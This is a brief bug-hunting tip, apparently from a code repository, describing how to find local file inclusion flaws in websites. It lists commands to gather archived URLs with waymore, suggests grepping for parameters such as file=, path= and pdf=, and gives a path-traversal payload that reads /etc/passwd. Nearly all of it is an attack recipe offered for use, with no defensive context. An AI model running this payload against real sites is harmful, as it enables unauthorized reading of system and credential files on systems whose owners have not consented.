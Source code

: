 Bug - LFI
---

1. Fetch historical urls through waymore
cat domains.txt | waymore -mode U -oU ~/waymore.txt

2. grep keywords like filename , file , path= , cat= , pdf=

Inject payload ../../../../../../../etc/passwd

**Credited to Toshit Barthi**

---
